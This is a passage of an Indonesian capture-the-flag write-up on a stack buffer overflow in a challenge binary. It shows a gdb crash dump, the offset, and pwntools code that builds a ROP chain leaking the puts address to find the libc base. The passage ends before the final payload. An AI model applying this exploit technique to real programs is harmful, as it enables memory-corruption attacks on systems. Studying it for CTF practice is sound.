 ```
AAAAAAAAAAAAAAAAAAAAAAAAAAAA
wibu wbuf wb0f~

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x4012d0 --> 0x8d4c5741fa1e0ff3
RCX: 0xfffffffffffff276
RDX: 0x0
RSI: 0x7fffff78c723 --> 0x78e4c0000000000a
RDI: 0x7fffff78e4c0 --> 0x0
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7ffffffedb90
RIP: 0x7fffff5c000a --> 0x800000000001e
R8 : 0x10
R9 : 0x4
R10: 0xfffffffffffff276
R11: 0xfffffffffffff276
R12: 0x401080 --> 0x8949ed31fa1e0ff3
R13: 0x7ffffffedc70
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```
Kita bisa lihat disini, bahwa size untuk bufferflow adalah <b>28</b>, jadi saya note dulu di python script
```python
# Overflow Offset
BUFF_SIZE = 28
SIZE_TOOV = 160
```
Saya disini tidak melihat cara untuk mendapatkan flag, dan seketika saya baca hints nya lagi
```
Stack BoF is lame r8 ?
return to win is not exist bruhh, use libc.so to return :)
```
Disini kita harus melakukan exploit yang bernama <b>ROP (Return Oriented Programming)</b> dan melakukan arahan untuk fungsi yang ada di <b>libc.so</b>. Ini adalah code saya sebelum melakukan <b>ROP</b>. Pastikan kita testing pada localserver kita
```python
wbof = ELF("./wbof")
libc = ELF("./libc.so")

p = wbof.process()

p.recvuntil("whut time is now ? ")
log.info("Sending buffer " + str(SIZE_TOOV))
p.sendline(str(SIZE_TOOV))
```
Oiya jangan lupa untuk set arsiktektur program yaa!
```python
context.arch = "amd64"
```
Setelah menentukan Max Buffernya, sekarang kita harus mengatur payload. Sebelumnya kita harus mencari tau dimana address dari <b>puts</b> yang berada pada stack <b>wbof</b>. Code ini lah yang saya gunakan
```python
# Membuat ROP (Return Oriented Progamming)
rop = ROP(wbof)
rop.call(wbof.symbols[b'puts'], [wbof.got[b'puts']])
rop.call(wbof.symbols[b'_start'])
# Fungsi ROP yang saya terapkan adalah untuk mengambil address puts untuk digunakan sebagai Base-Address pada libc
```